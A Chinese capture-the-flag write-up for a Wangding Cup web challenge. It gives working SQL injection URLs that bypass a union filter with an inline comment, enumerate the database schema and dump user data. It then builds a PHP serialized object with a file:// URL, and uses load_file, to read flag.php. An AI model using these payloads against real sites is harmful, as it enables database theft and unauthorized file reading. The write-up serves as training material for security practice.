



网鼎杯的难题（web的东西还是好多好杂）!!!下次还是要看过题解后自己再从头来一遍

首先发现sql注入点（找到的思路但是不会自己注入）

http://61.147.171.105:49452/view.php?no=1 order by 5 --+ 报错

然后http://61.147.171.105:49452/view.php?no=1 order by 4 --+ 没有报错 确定有四列

然后试试union  http://61.147.171.105:49452/view.php?no=1 union select 1,2,3,4 --+

发现no hack

测试后发现是内联绕过  http://61.147.171.105:49452/view.php?no=1 union/**/ select 1,2,3,4 --+

http://61.147.171.105:49452/view.php?no=-1 union/**/ select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#

 http://61.147.171.105:49452/view.php?no=-1 union/**/ select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#

然后获取data列的值

 http://61.147.171.105:49452/view.php?no = 100 union /**/ select group_concat(data),3,4 from users #



发现是这样存储数据的

然后扫目录的时候发现有robots.txt文件打开如下



获取/user.php.bak

发现源码如下

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

同时发现自己的data是通过反序列化的形式存储的

构造需要的反序列化

UserInfo":3:{s:4:"name";s:4:"assasda";s:3:"age";i:0;s:4:"blog";s:43:"file:///var/www/html/flag.php";}

序列化是将一个对象转化为可存储或可传输的格式的过程。在php中，可以使用serialize()函数将一个对象序列化为字符串，然后使用unserialize（）函数将字符串反序列化为对象

传递上去：

可以用serialize构造序列化

http://61.147.171.105:49452/view.php?no=100 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'

然后看源码发现 <iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tjMWU1NTJmZGY3NzA0OWZhYmY2NTE2OGYyMmY3YWVhYn0iOw0KZXhpdCgwKTsNCg=='>

base64解码后得到

<?php

$flag = "flag{c1e552fdf77049fabf65168f22f7aeab}";
exit(0);

第二种解法：直接用load__file读取

view-source:http://61.147.171.105:49452/view.php?no=100%20union/**/select%201,load_file(%27/var/www/html/flag.php%27),3,4%20



即可读取成功